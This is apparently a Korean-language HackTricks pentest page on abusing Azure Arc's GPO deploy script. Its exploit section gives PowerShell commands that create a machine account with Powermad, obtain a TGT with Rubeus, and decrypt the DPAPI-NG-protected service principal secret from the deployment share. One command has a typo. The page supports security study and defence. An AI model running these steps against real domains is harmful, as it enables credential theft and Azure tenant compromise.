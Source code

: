 # Az - Arc vulnerable GPO Deploy Script

{{#include ../../../banners/hacktricks-training.md}}

### Identifying the Issues

Azure Arc는 그룹 정책 개체 방법을 사용하여 새로운 내부 서버(도메인에 가입된 서버)를 Azure Arc에 통합할 수 있도록 합니다. 이를 위해 Microsoft는 온보딩 절차를 시작하는 데 필요한 배포 툴킷을 제공합니다. ArcEnableServerGroupPolicy.zip 파일 안에는 다음 스크립트가 포함되어 있습니다: DeployGPO.ps1, EnableAzureArc.ps1, 및 AzureArcDeployment.psm1.

DeployGPO.ps1 스크립트를 실행하면 다음 작업이 수행됩니다:

1. 로컬 도메인 내에 Azure Arc Servers Onboarding GPO를 생성합니다.
2. 온보딩 프로세스를 위해 생성된 지정된 네트워크 공유에 EnableAzureArc.ps1 온보딩 스크립트를 복사하며, 이 공유에는 Windows 설치 패키지도 포함되어 있습니다.

이 스크립트를 실행할 때, 시스템 관리자는 두 가지 주요 매개변수: **ServicePrincipalId** 및 **ServicePrincipalClientSecret**을 제공해야 합니다. 또한 도메인, 공유를 호스팅하는 서버의 FQDN, 공유 이름과 같은 다른 매개변수도 필요합니다. 테넌트 ID, 리소스 그룹 및 기타 필요한 정보와 같은 추가 세부정보도 스크립트에 제공되어야 합니다.

DPAPI-NG 암호화를 사용하여 지정된 공유의 AzureArcDeploy 디렉토리에 암호화된 비밀이 생성됩니다. 암호화된 비밀은 encryptedServicePrincipalSecret이라는 이름의 파일에 저장됩니다. 이 내용은 DeployGPO.ps1 스크립트에서 확인할 수 있으며, 여기서 암호화는 ProtectBase64를 호출하여 $descriptor와 $ServicePrincipalSecret을 입력으로 사용하여 수행됩니다. descriptor는 도메인 컴퓨터 및 도메인 컨트롤러 그룹 SID로 구성되어 있어, ServicePrincipalSecret은 도메인 컨트롤러 및 도메인 컴퓨터 보안 그룹에 의해서만 복호화될 수 있도록 합니다.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

다음 조건이 있습니다:

1. 내부 네트워크에 성공적으로 침투했습니다.
2. Active Directory 내에서 컴퓨터 계정을 생성하거나 제어할 수 있는 능력이 있습니다.
3. AzureArcDeploy 디렉토리를 포함하는 네트워크 공유를 발견했습니다.

AD 환경 내에서 머신 계정을 얻는 방법은 여러 가지가 있습니다. 가장 일반적인 방법 중 하나는 머신 계정 쿼터를 악용하는 것입니다. 또 다른 방법은 취약한 ACL 또는 다양한 다른 잘못된 구성으로 머신 계정을 손상시키는 것입니다.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
한 번 머신 계정을 얻으면, 이 계정을 사용하여 인증할 수 있습니다. 우리는 netonly 플래그가 있는 runas.exe 명령을 사용하거나 Rubeus.exe로 패스-더-티켓을 사용할 수 있습니다.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
메모리에 저장된 컴퓨터 계정의 TGT를 통해, 다음 스크립트를 사용하여 서비스 주체 비밀을 복호화할 수 있습니다.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
대안으로, 우리는 [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG)를 사용할 수 있습니다.

이 시점에서, 우리는 암호화된ServicePrincipalSecret 파일과 동일한 네트워크 공유에 저장된 ArcInfo.json 파일에서 Azure에 연결하는 데 필요한 나머지 정보를 수집할 수 있습니다. 이 파일에는 TenantId, servicePrincipalClientId, ResourceGroup 등과 같은 세부 정보가 포함되어 있습니다. 이 정보를 사용하여 Azure CLI를 통해 손상된 서비스 주체로 인증할 수 있습니다.

## References

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{{#include ../../../banners/hacktricks-training.md}}
